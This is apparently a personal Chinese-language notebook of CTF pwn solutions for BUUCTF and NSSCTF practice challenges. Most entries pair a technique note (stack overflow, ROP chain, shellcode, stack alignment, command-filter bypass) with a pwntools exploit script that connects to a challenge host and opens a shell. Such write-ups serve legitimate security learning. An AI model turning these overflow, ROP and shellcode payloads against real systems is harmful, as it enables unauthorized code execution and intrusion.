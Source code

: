# CTF Pwn 刷题

## buuctf 

### picoctf 2018 buffer_overflow 0
- 知识点：栈溢出
- 代码逻辑：通过观察函数逻辑发现flag.txt文件已经被放入全局变量flag中，因此只需要考虑调用puts函数输出flag即可
```
from pwn import *

p = remote('node5.buuoj.cn', 29495)
elf = ELF('./PicoCTF_2018_buffer_overflow_0')
flag_addr = 0x804A080
puts_addr = elf.symbols['puts']
payload = b'a' * (0x18 + 4) + p32(puts_addr) + p32(0) + p32(flag_addr)
print(payload)

```
### mrctf 2020 easy_overflow
- 
- payload
```
from pwn import *

p = remote('node5.buuoj.cn', 27749)
v5 = "ju3t_@_f@k3_f1@g"
print(len(v5))
fake_flag = "n0t_r3@11y_f1@g"
print(len(fake_flag))
payload = b'a' * 48 + b'n0t_r3@11y_f1@g'
p.sendline(payload)
p.interactive()

```

### picoctf 2018 shellcode

- payload
```
from pwn import *

p = remote('node5.buuoj.cn', 26988)
elf = ELF('./PicoCTF_2018_shellcode')
context(arch='i386', os='linux')
shellcode = asm(shellcraft.sh())
print(shellcode)
p.sendline(shellcode)
p.interactive()
```

### wustctf 2020 getshell 2
- 知识点：栈溢出、ROPgadget使用、shell命令
- 函数流程
- 注意点
1. 这道题获取system函数地址不能用plt地址，因为plt需要返回地址，占用四个字节后会超过栈空间，所以直接使用call _system的地址
2. 二进制程序中不存在/bin/sh字符串，可以用sh字符串平替
```
from pwn import *

p = remote('node5.buuoj.cn', 28992)
sh_addr = 0x08048670
elf = ELF('./wustctf2020_getshell_2')
# system_addr = elf.symbols['system']
system_addr = 0x08048529
# main_addr = elf.got['system']
print(hex(system_addr))
# print(hex(main_addr))
payload = b'a' * (0x18 + 4) + p32(system_addr) + p32(sh_addr)
p.sendline(payload)
p.interactive()

```

### ciscn_2019_es_2
- 知识点：栈迁移
- 栈迁移原理：首先进行栈溢出将ebp修改为目标地址，即需要迁移的地址
- 栈迁移的核心利用要点是找到leave; ret指令


### buu DASBOOK ROP
- 知识点：64位程序栈溢出、参数传递
- payload
```
from pwn import *

p = remote('node4.buuoj.cn', 27902)
elf = ELF('./rop')
bin_sh_addr = 0x601048
system_addr = elf.symbols['system']
print(hex(system_addr))
pop_rdi_addr = 0x400663
payload = b'a' * (0x20 + 8) + p64(pop_rdi_addr) + p64(bin_sh_addr) + p64(system_addr)
p.sendline(payload)
p.interactive()
```

### inndy_rop
- 知识点：栈溢出、静态链接、ROPgadget工具使用
- 重要命令：
```
ROPgadget --binary rop --ropchain
```
- payload
```
from struct import pack
from pwn import remote

io = remote('node5.buuoj.cn', 29622)
# Padding goes here
p = b'a' * (0xC + 4)

p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de769) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0806c943) # int 0x80

io.send(p)
io.interactive()

```


## NSSCTF

### CISCN 2019华北 pwn1

- 知识点：栈溢出、浮点数存储和转化为16进制字节、字节对齐
- 
- payload

```
from pwn import *
import struct

elf = ELF('./CISCN 2019华北PWN1')
p = remote('node4.anna.nssctf.cn', 28336)
# 要发送的小数
float_number = 11.28125

# 将小数转换为字节
byte_data = struct.pack('f', float_number).ljust(8, b'\x00')
print(byte_data)

payload = b'a' * 44 + byte_data
p.sendline(payload)
p.interactive()

```
### GDOUCTF 2023 ezshellcode
- 知识点： shellcode编写、ret2shellcode、栈溢出
- payload
```

```

### NSSCTF 2024秋季赛招新 nocat
- 知识点：linuxcat命令绕过方法：连接符绕过
- payload
```
c'a't flag
```

### NSSCTF 2024秋季招新赛 兄弟你的环境好香
- 知识点：64位程序栈内存对齐
- payload
```
from pwn import *

p = remote('node6.anna.nssctf.cn', 29421)
payload = b'a' * (0x50 + 8) + p64(0x4011F8) + p64(0x4011DD)
p.sendlineafter(b'Do you know stack alignment?', payload)
p.interactive()

```








